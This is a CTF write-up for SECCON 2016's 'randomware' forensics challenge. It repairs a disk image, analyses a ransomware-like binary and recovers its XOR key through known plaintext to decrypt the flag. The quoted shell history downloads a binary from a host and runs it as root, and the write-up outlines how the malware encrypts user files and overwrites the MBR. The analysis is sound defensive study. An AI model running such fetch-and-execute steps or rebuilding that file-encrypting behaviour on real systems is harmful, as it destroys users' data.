 # [SECCON Quals CTF 2016](http://2016.seccon.jp/): [randomware](
https://score-quals.seccon.jp/question/19a84b2eeb383263660420d7aa70372120b89771)

**Category:** Forensics
**Points:** 300
**Solves:** 38
**Description:**

> randomware
>
> My PC suddenly got broken. Could you help me to recover it please?
> NOTE: The disk can be virus-infected. DO NOT RUN any programs extracted from the disk outside of sandbox.
>
> [disk.qcow2.zip](http://files.quals.seccon.jp/disk.qcow2.zip)
> Challenge files is huge, please download it first. Password will release after 60min.
>
> password: h9nn4c2955kik9qti9xphuxti

## writeup

A short, not so hard forensics challenge, but perhaps more reversing
including basic crypto. Unzipping the challenge zip (with the provided
password) it is a plain
[qcow2](https://en.wikipedia.org/wiki/Qcow) image. It is a dense
[copy-on-write](https://en.wikipedia.org/wiki/Copy-on-write)
format. To deal with it easier, let us convert it to raw
with [`qemu-img`](https://linux.die.net/man/1/qemu-img)
(included with [qemu](http://wiki.qemu.org/Main_Page):

```
qemu-img convert disk.qcow2 disk.raw
```

The output file looks like a raw disk image, but
partition table seems to be corrupted:

```
$ file disk.raw 
disk.raw: DOS/MBR boot sector
$ fdisk -l disk.raw
Disk disk.raw: 1 GiB, 1073741824 bytes, 2097152 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x00000000
```

Dumping the file shows lots of data, so let us try to
recover that corrupted partition table (using the
standard recovery tool [TestDisk](http://www.cgsecurity.org/wiki/TestDisk)).
Doing an "Analyse / Quick Search" with "Intel" partition
type on the raw disk image immediately reveals the
healthy FAT32 partition. It is not important, but
it can be written to the file.

![TestDisk]{./screenshot_testdisk.png}

Now the disk image has been fixed, FAT32 partition
is available:
```
$ fdisk -l disk.raw 
Disk disk.raw: 1 GiB, 1073741824 bytes, 2097152 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x00000000

Device     Boot Start     End Sectors    Size Id Type
disk.raw1  *       63 2088449 2088387 1019.7M  b W95 FAT32
```

Mounting it is straightforward (it starts on sector 63,
sector size is 512 bytes, so offset is `63*512=32256` (in bytes)):
```
# mount -t vfat -o offset=32256,ro disk.raw  mnt/
```

Observing the structure it can be identified as a
[Tiny Core Linux](http://tinycorelinux.net/welcome.html) system.
The custom part of the system is probably in `/mydata.tgz`,
so it should be the most interesting stuff for further investigation.

It contains a home directory for user `tc` with some basic (almost
useless) config folders, a `.mozilla` folder with a profile, and
some very interesting files in the home:
```
home/tc/.ash_history
home/tc/getflag
home/tc/h1dd3n_s3cr3t_f14g.jpg
```

Here we should not forget the challenge NOTE about virus-infection:
the `getflag` is an ELF32 binary which must not be executed (outside
a sandbox!).

Dumping the history file:
```
tce-load -wil firefox-ESR
exit
tce-load -i firefox-ESR
firefox 172.17.0.1
wget http://172.17.0.1/getflag.bin -O getflag --user-agent="Chrome"
./getflag 
chmod +x getflag 
./getflag 
sudo ./getflag 
ls
firefox h1dd3n_s3cr3t_f14g.jpg 
```

So the user invoked [`tce-load`](http://wiki.tinycorelinux.net/wiki:tce-load)
and installed Firefox-ESR, downloaded `getflag` binary (from LAN)
executed getflag (as root, probably not the best idea ;) ), and tried to open
`h1dd3n_s3cr3t_f14g.jpg` in Firefox.

Unfortunately the jpeg file is a garbage.

### reversing the malware

The binary `getflag` is an ELF32, dynamically linked and fortunately not
stripped binary:
```
$ file home/tc/getflag 
home/tc/getflag: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=60e977599ec0a53c4406d8a9a941ce736aff9064, not stripped
```

It is a short binary full of symbols, so basic usage of
[r2](http://radare.org/r/) is more than enough to understand the malware.

![pdf @sym.main]{./screenshot_r2.png}

So the malware (ranDomware) does the following:

1. Checks for user id (==`root`)
2. `wget http://172.17.0.1/h1dd3n_s3cr3t_f14g.jpg`
3. Creates `encrypt_key` with 0x400 bytes pulled from `/dev/urandom`
4. Searches `/home/tc` recursively for files with suffix
`.txt`, `.bin`, `.jpg`, `.jpeg`, `.png`, `.gif`, `.bmp`, `.tif`, `.tiff`,
`.doc`, `.docx`, `.docm`, `.xls`, `.xlsx`, `.xlsm`, `.ppt`, `.pptx`, `.pptm`,
`.odt`, `.odf`, `.xml`.
5. Encrypts and overwrites the matching files by XORing somehow with
the random `encrypt_key`.
6. And as a bonus, overwrites the MBR of the disk with a custom code. (WARNING: DO NOT TRY TO EXECUTE IT!!!)

### ranDomware vulnerability

In order to decrypt the encrypted `h1dd3n_s3cr3t_f14g.jpg`, the
random generated `encrypt_key` must be found somehow. It is not
impossible, because the malware XOR encrypts every file it founds
with exactly the same `encrypt_key`. Thus, if we find an encrypted
file (`C`) with known plaintext `P` (and with a size bigger than
the key size (0x400 = 1024 byes)), the key can be calculated
trivially:
```
encrypt_key = C[:0x400] ^ P[:0x400]
```

### searching for known plaintext

There are possible encrypted `*.xml` files with known plaintext in
`home/tc/.local/share/mime/packages/` but the size is too small.
Fortunately there is an encrypted `blocklist.xml` file in the
Firefox profile folder:
```
home/tc/.mozilla/firefox/wir5mrmb.default/blocklist.xml
```

Now the original plaintext of `blocklist.xml` must be found.
Probably it is part of the appropriate Firefox tarball.
Reading `prefs.js` from the profile dir, the variable
`gecko_mstone` identifies the version: `45.0`. Moreover,
it is surely an
[ESR](https://www.mozilla.org/en-US/firefox/organizations/faq/)
according to the previously parsed `.ash_history` file above.

Browsing the
[Firefox FTP release folder](https://ftp.mozilla.org/pub/firefox/releases/),
the [45.0esr](https://ftp.mozilla.org/pub/firefox/releases/45.0esr/)
version can be [downloaded](https://ftp.mozilla.org/pub/firefox/releases/45.0esr/linux-i686/en-US/firefox-45.0esr.tar.bz2).

Extracting the tarball `firefox/browser/blocklist.xml` matches
the encrypted `blocklist.xml` size (207840 bytes), so it is almost sure,
that the corresponding plaintext file has been found.


### Decrypting the flag

The following simple [Python3 script](./decrypt.py)
calculates the XOR key from the plaintext and
encrypted version of `blocklist.xml` and decrypts
`h1dd3n_s3cr3t_f14g.jpg`:

```python
#!/usr/bin/python3
#

key = [b'\x00']*0x400
enc = open('./home/tc/h1dd3n_s3cr3t_f14g.jpg', 'rb').read()
dec = b''

f2 = 'blocklist.xml'
c2 = open('./home/tc/.mozilla/firefox/wir5mrmb.default/' + f2, 'rb').read()
p2 = open('./firefox/browser/' + f2, 'rb').read()

for i in range(len(key)):
    key[i] = bytes([p2[i] ^ c2[i]])

for i in range(len(enc)):
    dec += bytes([enc[i] ^ ord(key[i%len(key)])])

open('./f14g_decrypted.jpg', 'wb').write(dec)
```

Displaying the output jpeg shows the flag:
```
SECCON{This is Virtual FAT too}
```

![SECCON{This is Virtual FAT too]{./f14g_decrypted.jpg}
